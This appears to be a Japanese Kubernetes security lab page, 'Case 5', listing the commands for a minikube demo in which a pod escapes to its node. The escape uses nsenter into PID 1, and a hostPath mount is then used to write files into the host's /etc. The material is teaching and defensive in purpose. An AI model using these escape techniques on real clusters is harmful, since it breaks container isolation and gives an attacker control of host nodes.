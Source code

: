 # ケース5: コンテナからコンテナホストを操作されてしまった

`Podのデプロイ`
```bash
kubectl apply -f sample-web.yaml
```

`Podに含まれるコンテナへの侵入`
```bash
kubectl exec -it sample-web -- /bin/bash

root@sample-web:/# hostname
```

`Nodeへの侵入`
```bash
root@sample-web:/# nsenter -t 1 -a /bin/bash
```

`Nodeに対する操作`
```bash
bash-5.0# hostname

bash-5.0# pwd

bash-5.0# touch create-from-container.txt

bash-5.0# ls

bash-5.0# exit

root@sample-web:/# exit
```

`minikube sshコマンドによるNodeへの接続`
```bash
kubectl get pod sample-web -o wide

minikube ssh -n minikube
```

`Nodeに侵入できたことの確認`
```bash
hostname

ls /

exit
```

`Podのデプロイ`
```bash
kubectl apply -f hostpath.yaml
```

`コンテナにマウントしたディレクトリに対するファイル作成`
```bash
kubectl exec -it hostpath -- /bin/bash

root@hostpath:/# touch /host-etc/create-from-container-hostpath.txt

root@hostpath:/# ls -l /host-etc

root@hostpath:/# exit
```
